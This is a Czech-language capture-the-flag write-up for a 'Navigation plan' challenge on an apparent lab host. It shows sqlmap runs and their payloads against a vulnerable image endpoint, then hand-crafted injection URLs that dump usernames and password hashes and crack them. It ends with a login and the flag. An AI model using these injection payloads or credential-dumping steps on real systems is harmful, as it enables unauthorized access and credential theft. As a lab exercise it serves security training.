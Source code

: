 # Navigation plan

## Zadání

```
Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at http://navigation-plan.cns-jv.tcc.

Hint: Details should contain the desired information.
```

## Řešení

Ze HTML zdrojového kódu stránky je patrný poměrně zvláštní způsob načítání obrázků:

```html
<img src="/image.png?type=data&amp;t=targets&amp;id=1" alt="Map for # Target 1">
```

Drobná změna GET parametru `t` zobrazí zajímavou chybu 
http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targes&id=1

```
Fatal error: Uncaught mysqli_sql_exception: Table 'navigation.targes' doesn't exist in /var/www/html/image.php:9 Stack trace: #0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT data FRO...') #1 {main} thrown in /var/www/html/image.php on line 9
```

Jedná se tedy o SQL injection.

### Sqlmap

#### Výpis databází 

```bash
sqlmap --random-agent -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --level 5 --risk 3 --dbs --threads 

GET parameter 'type' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1892 HTTP(s) requests:
---
Parameter: type (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
    Payload: type=data,(SELECT (CASE WHEN (6312=6312) THEN 1 ELSE 6312*(SELECT 6312 FROM INFORMATION_SCHEMA.PLUGINS) END))&t=targets&id=1

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: type=data OR (SELECT 1856 FROM(SELECT COUNT(*),CONCAT(0x717a766a71,(SELECT (ELT(1856=1856,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&t=targets&id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: type=data AND (SELECT 4322 FROM (SELECT(SLEEP(5)))xpfE)&t=targets&id=1
---
[20:20:10] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.10, Apache, PHP
back-end DBMS: MySQL >= 5.0
[20:20:10] [INFO] fetching database names
[20:20:10] [WARNING] the SQL query provided does not return any output
[20:20:10] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[20:20:10] [INFO] fetching number of databases
[20:20:10] [INFO] resumed: 2
[20:20:10] [INFO] retrieving the length of query output
[20:20:10] [INFO] retrieved: 18
[20:20:21] [INFO] retrieved: information_schema             
[20:20:21] [INFO] retrieving the length of query output
[20:20:21] [INFO] retrieved: 10
[20:20:27] [INFO] retrieved: navigation             
available databases [2]:
[*] information_schema
[*] navigation
```

#### Tabulky v databázi `navigation`

```bash
sqlmap --random-agent -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --level 5 --risk 3 --tables -D navigation

Database: navigation
[3 tables]
+---------+
| files   |
| targets |
| users   |
+---------+
```

### Pokus o výpis tabulky `users`

```bash
sqlmap --random-agent -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --level 5 --risk 3 -D navigation -T users --dump

[20:31:55] [INFO] fetching columns for table 'users' in database 'navigation'
[20:31:55] [WARNING] the SQL query provided does not return any output
[20:31:55] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[20:31:55] [WARNING] unable to retrieve column names for table 'users' in database 'navigation'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/data/txt/common-columns.txt' (press Enter)
[2] custom
> 
[20:32:12] [INFO] checking column existence using items from '/usr/share/sqlmap/data/txt/common-columns.txt'
[20:32:12] [INFO] adding words used on web page to the check list
[20:32:12] [INFO] starting 4 threads
                                                                                                                                                                            
[20:34:56] [WARNING] no column(s) found
[20:34:56] [WARNING] unable to enumerate the columns for table 'users' in database 'navigation'
```

Pokus o výpis je tedy neúspěšný, ale alespoň víme že v databázi je tabulka `navigation.users`.
Zkusíme ručně jestli tabulka obsahuje klasické sloupce typu `username` a `password`.

### Získání uživatelských jmen a hesel

Pokus o výpis uživatelských jmen zobrazuje podivné znaky, ale zdá se že sloupec `username` skutečně existuje:
http://navigation-plan.cns-jv.tcc/image.png?type=username&t=navigation.users%20LIMIT%200,1%20%20--%20&id=2

Zajímavější je ale výpis LIMIT 3,4:
http://navigation-plan.cns-jv.tcc/image.png?type=username&t=navigation.users%20LIMIT%203,4%20%20--%20&id=2

```
Warning: Trying to access array offset on value of type null in /var/www/html/image.php on line 12
Deprecated: base64_decode(): Passing null to parameter #1 ($string) of type string is deprecated in /var/www/html/image.php on line 12
```

Takže je potřeba použít kódování Base64!

http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(username)&t=navigation.users%20LIMIT%200,1%20%20--%20&id=2
http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(username)&t=navigation.users%20LIMIT%201,2%20%20--%20&id=2
http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(username)&t=navigation.users%20LIMIT%202,3%20%20--%20&id=2

```
engeneer
captain
officer
```

http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(password)&t=navigation.users%20LIMIT%200,1%20%20--%20&id=2
http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(password)&t=navigation.users%20LIMIT%201,2%20%20--%20&id=2
http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64(password)&t=navigation.users%20LIMIT%202,3%20%20--%20&id=2

```
15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225
7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537
6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb
```

Na stránce https://crackstation.net získáme některá hesla:

```
15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225     sha256     123456789
7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537     sha256     $captainamerica$
6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb     Unknown    Not found.
```

### Přihlášení

Na úvodní stránce se přihlásíme jako uživatel `captain` s heslem `$captainamerica$`
Vlajka je skryta v `Details` u `Target 4`.

## Vlajka

```
FLAG{fmIT-QkuR-FFUv-Zx44}
```

